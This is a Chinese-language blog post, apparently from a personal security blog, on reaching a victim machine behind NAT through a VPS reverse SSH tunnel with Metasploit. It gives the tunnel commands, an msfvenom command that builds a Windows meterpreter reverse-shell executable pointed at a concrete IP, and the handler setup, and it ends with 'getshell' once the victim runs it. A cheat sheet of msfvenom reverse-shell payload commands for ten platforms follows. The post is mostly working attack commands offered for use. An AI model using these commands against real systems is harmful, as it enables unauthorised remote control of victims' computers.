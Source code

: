 ```yaml
---
layout:     post
title:      通过 VPS SSH Tunnel 实现内网穿透
author:     wooy0ung
tags: 		msf
category:  	exploit
password:	yes
---
```



>内网 IP 一般是动态变化的, 直接以内网 IP 的点对点通讯不利于维持控制。
>因此, 必须有一个公网 IP 作为跳板(这里用VPS), 当 Victim 反向连接 VPS时, 进行端口转发, 将
所有流量通过 SSH Tunnel 发送到 Attacker 的机器。  
![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x00.png)
<!-- more -->


### 0x00 config & open SSH Tunnel

在 /etc/ssh/sshd_config 文件末尾添加

```
GatewayPorts yes
```

打开ssh隧道

```
$ ssh -N -R 9000:192.168.1.116:9000 root@VPS_IP
```


### 0x01 make payload & exploit

生成 x86 Windows payload

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=188.166.209.119 LPORT=9000 -f exe > run.exe
```

start msf

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 0.0.0.0
msf exploit(handler) > set lport 9000
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j
```

测试 ssh Tunnel 是否畅通

```
$ tcping VPS_IP 9000
```

msf弹出提示信息, 端口转发正常

![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x01.png)

在 Victim's Machine 上执行 payload, getshell~

![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x02.png)


### 0x02 后记: msfvenom生成各类payload命令

```
Linux: 
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=IP lport=PORT -f elf > shell.elf

Windows: 
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f exe > shell.exe

Mac: 
msfvenom -p osx/x86/shell_reverse_tcp lhost=IP lport=PORT -f macho > shell.macho

PHP: 
msfvenom -p php/meterpreter_reverse_tcp lhost=IP lport=PORT -f raw > shell.php cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP: 
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f asp > shell.asp

JSP: 
msfvenom -p java/jsp_shell_reverse_tcp lhost=IP lport=PORT -f raw > shell.jsp

WAR: 
msfvenom -p java/jsp_shell_reverse_tcp lhost=IP lport=PORT -f war > shell.war

Python: 
msfvenom -p cmd/unix/reverse_python lhost=IP lport=PORT -f raw > shell.py

Bash:
msfvenom -p cmd/unix/reverse_bash lhost=IP lport=PORT -f raw > shell.sh

Perl: 
msfvenom -p cmd/unix/reverse_perl lhost=IP lport=PORT -f raw > shell.pl
```